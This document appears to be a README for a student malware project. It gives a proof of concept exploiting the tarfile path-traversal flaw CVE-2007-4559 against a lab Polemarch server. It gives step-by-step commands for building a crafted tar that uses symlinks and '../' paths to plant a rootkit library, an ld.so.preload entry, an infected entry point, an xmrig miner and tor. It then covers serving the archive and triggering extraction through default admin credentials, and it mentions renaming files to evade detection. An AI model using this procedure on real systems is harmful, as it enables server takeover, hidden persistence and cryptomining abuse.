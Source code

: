 # MALW
Malware UPC

## Set up

### Docker
```bash
$: docker compose build 
$: docker compose up -d
```

Polemarch server available at http://localhost:8080

### Vagrant
```bash
$: vagrant up
```

Polemarch server available at http://localhost:8085

## POC
Proof of concept using https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-4559 
and based on the work from https://www.trellix.com/en-us/about/newsroom/stories/research/tarfile-exploiting-the-world.html.

### Directories to attack
We want to be able to deploy the following files:

- /usr/local/lib
  - -> **rootkit.so**: library to load
- /etc
  - -> **ld.so.preload**: library to load before any other library
- /opt/polemarch/bin
  - -> **polemarchctl**: infected docker entry point
- /usr/bin
  - -> **xmring**: miner
  - -> **tor**: tor

Note: in the real exploit we would change some names to avoid detection.

### Notes
- Binary files MUST have executable permissions
- Tar's can not be deployed twice
- Malware will be placed in an auxiliar folder which will be symlinked to target folder

## Instructions
In order to deploy the malware we will have to set up:

- Polemarch server 
- Generate tar with the malware
- Create server hosting the compromised tar files

### Polemarch server
First, deploy the polemarch server (with vagrant or docker):

```bash
$: docker compose build 
$: docker compose up -d
```

And open the web interface at http://localhost:8080

Or with vagrant:

```bash
$: vagrant up
```

And open the web interface at http://localhost:8085

### Generate tar files
The tar files will be generated in the `poc/tar/` folder.

But first, we need to set up all the files for generating the tar correctly.

1. Copy the binaries to the `poc` folder:

```bash
$: cp cryptominer/tor poc/
$: cp crytominer/xmrig poc/
```

2. Generate the rootkit shared library in the `poc/rootkit` folder:

```bash
$(rootkit): make
```

3. Copy the rootkit shared library to the `poc` folder:

```bash
$: cp rootkit/rootkit.so poc/
```

And then we can generate the tar files:

```bash
# Execute tar files generator
$: python3 tar.py
[*] Creating symlink aaaa -> etc/
[*] Creating symlink bbbb -> usr/local/lib/
[*] Creating symlink cccc -> usr/bin/
[*] Creating symlink dddd -> opt/polemarch/bin/
[*] Changing aaaa to ../../../../../../../../../test/aaaa
[*] Changing bbbb to ../../../../../../../../../test/bbbb
[*] Changing cccc to ../../../../../../../../../test/cccc
[*] Changing dddd to ../../../../../../../../../test/dddd
[*] Changing ld.so.preload to ../../../../../../../../../test/aaaa/ld.so.preload
[*] Changing rootkit.so to ../../../../../../../../../test/bbbb/rootkit.so
[*] Changing tor to ../../../../../../../../../test/cccc/tor
[*] Changing xmrig to ../../../../../../../../../test/cccc/xmrig
[*] Changing polemarchctl to ../../../../../../../../../test/dddd/polemarchctl
[*] Removing symlink aaaa
[*] Removing symlink bbbb
[*] Removing symlink cccc
[*] Removing symlink dddd
```

This will generate the following tar files:
- `poc/tar/rootkit.tar.gz`: tar file with the malware

### Server hosting the tar files
Host the tar files, for example with python:
```bash
$: cd poc/tar
$: python -m http.server 3005
```

Log in to the polemarch server using default password (admin/admin) and
create a project with a the compromised tar file:

![PROJECT](https://user-images.githubusercontent.com/60936394/206489889-e48ef2fa-3bf8-4df7-b5bf-6c5a6cdec872.png)

"Sync" the project, which will untar untar our compromised tar.

Note: the server hosting IP must be accessible from the docker of virtual machine
